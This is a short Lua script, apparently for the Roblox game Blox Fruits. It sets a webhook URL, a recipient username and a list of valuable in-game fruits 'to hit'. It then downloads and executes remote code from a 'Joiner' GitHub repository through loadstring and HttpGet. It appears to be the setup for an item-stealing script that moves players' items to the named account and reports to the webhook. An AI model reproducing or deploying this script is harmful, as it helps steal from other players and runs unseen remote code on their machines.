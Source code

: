 local fenv = getfenv()

fenv.Webhook = "https://sharky-on-top.script-config-protector.workers.dev/w/ec997812-0924-4684-b96b-9527ee4e121a"
fenv.Usernames = {
    [1] = "uriel72574",
}
fenv.FruitsToHit = {
    [1] = "Kitsune-Kitsune",
    [2] = "Leopard-Leopard",
    [3] = "Yeti-Yeti",
    [4] = "Gas-Gas",
    [5] = "Dough-Dough",
}
loadstring(game:HttpGet("https://raw.githubusercontent.com/SharkyScriptz/Joiner/refs/heads/main/V3"))()
